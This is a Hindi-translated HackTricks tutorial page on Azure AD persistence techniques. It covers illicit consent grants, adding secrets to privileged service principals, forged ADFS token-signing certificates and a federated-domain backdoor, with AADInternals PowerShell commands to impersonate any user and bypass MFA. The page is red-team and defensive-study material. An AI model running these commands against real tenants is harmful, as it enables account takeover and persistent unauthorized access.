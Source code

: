 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

डिफ़ॉल्ट रूप से, कोई भी उपयोगकर्ता Azure AD में एक एप्लिकेशन पंजीकृत कर सकता है। इसलिए आप एक एप्लिकेशन पंजीकृत कर सकते हैं (केवल लक्षित टेनेट के लिए) जिसे उच्च प्रभाव की अनुमतियों की आवश्यकता होती है जिसमें व्यवस्थापक की सहमति (यदि आप व्यवस्थापक हैं तो इसे अनुमोदित करें) - जैसे कि किसी उपयोगकर्ता की ओर से मेल भेजना, भूमिका प्रबंधन आदि। यह हमें **फिशिंग हमलों को निष्पादित करने** की अनुमति देगा जो सफलता की स्थिति में बहुत **लाभदायक** होंगे।

इसके अलावा, आप उस एप्लिकेशन को अपने उपयोगकर्ता के रूप में स्वीकार कर सकते हैं ताकि उस पर पहुंच बनाए रख सकें।

### Applications and Service Principals

एप्लिकेशन प्रशासक, GA या microsoft.directory/applications/credentials/update अनुमतियों के साथ एक कस्टम भूमिका के विशेषाधिकारों के साथ, हम एक मौजूदा एप्लिकेशन में क्रेडेंशियल (गुप्त या प्रमाणपत्र) जोड़ सकते हैं।

यह **उच्च अनुमतियों वाले एप्लिकेशन को लक्षित करना** या **उच्च अनुमतियों के साथ एक नया एप्लिकेशन जोड़ना** संभव है।

एप्लिकेशन में जोड़ने के लिए एक दिलचस्प भूमिका **विशेषाधिकार प्राप्त प्रमाणीकरण प्रशासक भूमिका** होगी क्योंकि यह **वैश्विक प्रशासकों का पासवर्ड रीसेट** करने की अनुमति देती है।

यह तकनीक **MFA को बायपास** करने की भी अनुमति देती है।

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* प्रमाणपत्र आधारित प्रमाणीकरण के लिए

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

**DA विशेषाधिकार** के साथ ऑन-प्रेम AD पर, **नए Token signing** और **Token Decrypt certificates** बनाना और आयात करना संभव है जिनकी वैधता बहुत लंबी होती है। यह हमें **किसी भी उपयोगकर्ता के रूप में लॉग-इन** करने की अनुमति देगा जिसका ImuutableID हमें पता है।

**ADFS सर्वर(s)** पर **DA के रूप में** नए सर्टिफिकेट बनाने के लिए नीचे दिए गए कमांड को चलाएँ (डिफ़ॉल्ट पासवर्ड 'AADInternals'), उन्हें ADFS में जोड़ें, ऑटो रोलओवर को अक्षम करें और सेवा को पुनः प्रारंभ करें:
```powershell
New-AADIntADFSSelfSignedCertificates
```
फिर, Azure AD के साथ प्रमाणपत्र जानकारी को अपडेट करें:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA विशेषाधिकार के साथ एक टेनेट पर, **एक नया डोमेन जोड़ना** संभव है (इसकी पुष्टि होनी चाहिए), इसके प्रमाणीकरण प्रकार को फेडरेटेड पर कॉन्फ़िगर करना और डोमेन को **एक विशिष्ट प्रमाणपत्र** (नीचे दिए गए कमांड में any.sts) और जारीकर्ता पर **विश्वास** करने के लिए कॉन्फ़िगर करना:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## संदर्भ

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
